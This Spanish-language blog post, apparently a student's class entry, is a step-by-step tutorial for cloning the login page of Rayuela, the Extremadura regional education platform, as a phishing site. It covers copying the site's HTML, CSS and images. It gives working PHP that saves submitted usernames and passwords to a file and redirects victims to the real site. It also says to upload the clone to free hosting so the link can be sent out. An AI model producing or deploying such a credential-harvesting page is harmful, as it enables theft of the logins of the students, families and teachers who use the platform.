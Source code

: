 ```yaml
---
layout: post
current: post
cover: assets/images/2.jpg
navigation: True
title: Phishing Rayuela
date: 2021-01-29 10:18:00
tags: 2º evaluación
class: post-template
subclass: 'post'
author: aalmeidar
---
```


# Phishing
## Introducción
En esta entrada, elaboraremos paso a paso una aplicación web phishing. Primeramente, definamos lo que es el phishing:

El *phishing* es una técnica que consiste en el envío de un correo electrónico por parte de un ciberdelincuente a un usuario simulando ser una entidad legítima con el objetivo de robarle información privada, realizarle un cargo económico o infectar el dispositivo. Para ello, adjuntan archivos infectados o enlaces a páginas fraudulentas en el correo electrónico.

Tendremos como objetivo la pagina de Rayuela (Plataforma Integral Educativa de la Consejería de Educación de la Junta de Extremadura).
Para ello, usaremos las tecnologías frecuentes en el desarrollo web (HTML, CSS, PHP) y un hosting.

## Video

[![Watch the video](https://i.ytimg.com/vi/-Hrk3IBMZGI/maxresdefault.jpg)](https://www.youtube.com/watch?v=-Hrk3IBMZGI)

## Estudio de la web
Lo primero que debemos hacer es acceder a la web y tener un pequeño mapa mental de la estructura externa. Ademas, podemos ir echando un vistazo a las tecnologías usadas y como han sido desarrolladas (si el css esta junto a html o en una hoja de estilo, etc).


## HTML
Para comenzar, copiaremos el html de la web objetivo. HTML es un lenguaje de marcado que se utiliza para el desarrollo de páginas de Internet. Se trata de la sigla que corresponde a HyperText Markup Language, es decir, Lenguaje de Marcas de Hipertexto, que podría ser traducido como Lenguaje de Formato de Documentos para Hipertexto.
Podemos hacer esto de varias formas:
- Usar el comando ```wget``` o ```curl``` a través de la terminal para obtener el html
- Click derecho, ver código fuente, copiamos y guardamos en un archivo con extensión html.
    
Si vamos viendo nuestro progreso veremos la pagina que aun no se parece mucho a nuestro objetivo, la estética la conseguiremos con css.


## CSS
La sigla CSS corresponde a la expresión inglesa Cascading StyleSheets, que puede traducirse como “Hojas de estilo en cascada”. El concepto se utiliza en el ámbito de la informática para referirse a un lenguaje empleado en el diseño gráfico.
Si CSS esta externo al html, nos será necesario buscar la ruta de este archivo. Comunmente, entre las etiquetas head de html se coloca la ruta a este archivo. En nustro caso, se observa la ruta en una línea.

Si accedemos a la dirección, encontraremos todo el css que afecta a nuestra web. Hacemos igual que con el html, lo copiamos y guardamos en un archivo con extensión css. (Se debe de poner la misma ruta y nombre).

Ya se observa una mejora de nuestra web pero aun nos falta algo, las imágenes.



## Imágenes
Para obtener las imágenes, podemos usar [herramientas online](https://imagecyborg.com/) aunque en nuestro caso no obtendremos todas, puesto que, también hay imágenes en el css.
Por orta parte, se puede hacer manualmente, si observamos el html veremos las rutas de las imágenes al igual que en el css.
Para ir mas rápido en la búsqueda de imágenes, se puede usar filtros por .png .jpg .gif.
Una vez encontradas, las descargaremos y guardaremos con la misma ruta. Ya tenemos la web copiada.

## PHP
PHP (acrónimo recursivo de PHP: Hypertext Preprocessor) es un lenguaje de código abierto muy popular especialmente adecuado para el desarrollo web y que puede ser incrustado en HTML.
Lo usaremos para recoger la información de los inputs y guardarla en un archvio txt.

```php
<?php
file_put_contents("usernames.txt", "Account: " . $_POST['username'] . " Pass: " . $_POST['password'] . "\n", FILE_APPEND);
header('Location: https://rayuela.educarex.es');
exit();
```
La función file_put_contents escribe informacion en un fichero tiene esta sintaxis:
file_put_contents(filename, data, mode, context)
La función PHP header nos permite enviar encabezados sin formato al cliente (robot, navegador…). Es una manera de forzar dicho envío antes de que se lean los encabezados de la propia página.
Ahora deberemos ir al código HMTL y cambiar en los inputs los valores a username y password. Nos quedaría algo asi:
```html
<div class="columna">
  <label for="ussername">Usuario</label>
  <input name="username" type="text" id="username" />
</div>
<div class="columna">
  <label for="password">Clave</label>
  <input name="password" type="password" id="password " />
</div>
```
Además, debemos cambiar la redirección del action de form  a login.php:

```html
<form name="formulario" id="formulario" method="post" action="login.php">
```
## Hosting 

Después de tener todo el login perfecto para el phishing toca subirlo a la red para poder enviarlo. En este caso usaremos un [hosting gratuito](https://000webhost.com).



## Práctica

Para comprobar los conociminetos adquiridos, realiza un página phishing a esta [Web](https://aalmeidar.000webhostapp.com)




## Para ampliar

- [Ejemplo de phsishing paso a paso (BBVA)](https://www.bbva.com/es/un-ejemplo-de-phishing-paso-a-paso/)
- [Ingeniería social: Phishing y baiting](http://repository.unipiloto.edu.co/bitstream/handle/20.500.12277/6349/Ingenieria%20social%20Phishing%20y%20Baiting.pdf?sequence=1&isAllowed=y)
- [Los ataques de ingeniería social más habituales son los fraudes online](https://cuadernosdeseguridad.com/2020/07/ingenieria-social-engano-pablo-iglesias-phishing/)
- [Metodologías de Ingeniería Social ](http://openaccess.uoc.edu/webapps/o2/bitstream/10609/81255/6/jrodriguezrinTFM0618memoria.pdf)
- [Phishing: la automatización de la ingienería social](https://repository.eafit.edu.co/bitstream/handle/10784/2443/salazar_natalia_2007.pdf?sequence=1)
